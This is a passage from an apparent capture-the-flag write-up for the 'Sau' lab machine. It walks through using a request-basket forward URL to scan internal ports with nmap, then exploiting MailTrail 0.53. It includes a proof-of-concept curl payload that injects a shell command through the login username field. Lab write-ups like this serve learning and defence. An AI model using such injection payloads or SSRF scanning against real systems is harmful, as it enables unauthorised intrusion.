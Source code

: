 ```python
    def guess_type(self, path):
        base, ext = posixpath.splitext(path)
        if ext in mimetypes.types_map:
            return mimetypes.types_map[ext]
        return 'application/octet-stream'

def start_server():
    server_address = ('', 1337)
    httpd = HTTPServer(server_address, RequestHandler)
    print('Server running...')
    httpd.serve_forever()

start_server()
```

## Shell as puma Continued

I did not change the forward URL from the payload that I found online and was lucky that the port I used (port 80) was the same as the as the one used for the service on the target. To port scan through a netcat listener, what you need to do for this box is create a basket, then set the forward url to the IP of your machine and then add the port you are going to use to start a netcat listener.

For me I did the following: __http://10.10.27.32:8888__

Then you will want to visit the url of the new basket after you start your netcat listener. Once you do this then you will want to run the following nmap command:

```bash
nmap --top-ports=50 -Pn --proxy http://127.0.0.1:8888 sau.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-16 23:56 EDT
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.073s latency).
Not shown: 48 closed ports
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp filtered http

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

As you can see from the above output, we found a service running on port 80 that we previously could not see when we ran our initial port scan.

Now let's get back to figuring out what we can about the mailtrail service running on the machine and see if we can exploit it. 

As we can see on the landing page the version for MailTrail is 0.53. A quick search found that this version is vulnerable to command injection in the username parameter. The application is built using python so that means an attacker can leverage the OS module in python to inject all sorts of commands on the target.

The POC payload is as follows:

```bash
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```
